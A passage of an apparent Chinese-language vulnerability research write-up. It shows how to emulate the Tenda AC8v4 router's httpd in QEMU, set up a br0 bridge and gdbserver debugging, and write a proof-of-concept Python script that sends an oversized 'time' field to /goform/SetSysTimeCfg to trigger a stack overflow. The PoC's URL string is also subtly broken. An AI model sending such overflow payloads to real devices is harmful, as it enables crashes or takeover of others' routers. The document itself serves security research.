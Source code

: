 如果你不想使用 IDA Pro，不用担心！你可以在这里下载修补版本 -> github.com；现在替换原始的 ./bin/httpd，脚本应该继续运行，但其他问题将开始显现；当为 httpd 分配监听地址时，httpd 可能会说 '无法分配地址' 或监听在 255.255.255.255！这是怎么发生的？如果你搜索字符串 'httpd listen ip'；它会带你到 socketOpenConnection() 并返回到 main()  
```
  v4 = ifaddrs_get_lan_ifname();
  if ( ifaddrs_get_ifip(v4, v11) < 0 )
  {
    GetValue("lan.ip", v8);
    strcpy(g_lan_ip, v8);
    memset(v12, 0, 0x5E4u);
    if ( !file_lan_dhcpc_get_ipinfo_and_status(v12) && v12[0x8C] )
      strcpy(g_lan_ip, &v12[0x8C]);
  }

```  
  
其中 lan.ip 来自全局变量 g_lan_ip，通常从接口 br0 获取 ip；在我们的情况下，我们在 QEMU 中没有 br0 网桥接口（在 Ubuntu VMware 中确实有），因此我们必须使用类似 pre-qemu 设置的方法创建一个，使用 brctl 和 ifconfig；我们可以尝试自己手动分配地址，而不是使用 dhclient：  
```
brctl addbr br0                        # 添加 br0 接口
ifconfig br0 192.168.x.x/24 up        # 手动分配一个 IP 地址

```  
  
成功了！现在，在导出 LD_LIBRARY_PATH、修补 ifaddrs_get_ifip() 和构建 br0 接口后，重新运行 ./bin/httpd 文件；现在终于，正如 httpd - web.c:158 调试信息显示的那样，绑定到正确的 ip 和 port，我们可以直接在浏览器中访问它，并且可以看到 Tenda Ac8v4 的主页！  
## $a0+$t9：溢出和流量控制  
### 溢出  
  
在设置 Tenda Ac8v4 的 qemu-system 级别模拟后，是时候将其付诸实践了！但在我们开始之前，为 ./bin/httpd 提供一个 gdbserver 会对我们有很大帮助！首先，确保你在 https://github.com/lucyoa/embedded-tools/tree/master/gdbserver 获取最新的 gdbserver 二进制文件，也确保你下载与 QEMU 虚拟机对应的正确架构，在我们的例子中，我们选择 gdbserver-7.7.1-mipsel-mips32-v1 来托管；通过 wget 或 scp 下载并 chmod +x 后，使用 ./gdbserver 0.0.0.0:[PORT_YOU_WANT] ./bin/httpd 开始服务！由于我们在 mipsel 上调试，我们需要 gdb-multiarch 进行调试（安装命令 apt install gdb-multiarch）；之后，你可以通过 gdb-multiarch -q ./bin/httpd 连接到此服务器，然后 target remote [address]:[port]；确保在连接后 continue。  
> 如果你在连接到 gdbserver 时遇到错误，尝试在 chroot . sh 到固件之前重新挂载 /proc，命令为 mount -t proc /proc /root/proc :)  
  
  
在设置 gdbserver 后，我们可以通过 /goform/SetSysTimeCfg 进行基于堆栈的溢出利用作为概念验证！我创建了这个 poc.py 脚本来首先测试溢出：  
```
def sink(        host,        port,        payload    ):

    import requests
    url = "http://{host}:{port}/goform/SetSysTimeCfg"
    _payload = b''
    _payload = b'retr0reg' + b":" + payload
    data = {
        b"timeType":b"manual",
        b"time":_payload
    }

    def send_request():
        try:
            requests.post(url=url, data=data)
        except Exception as e:
            print(f"Request failed: {e}")

    send_request()

```  
  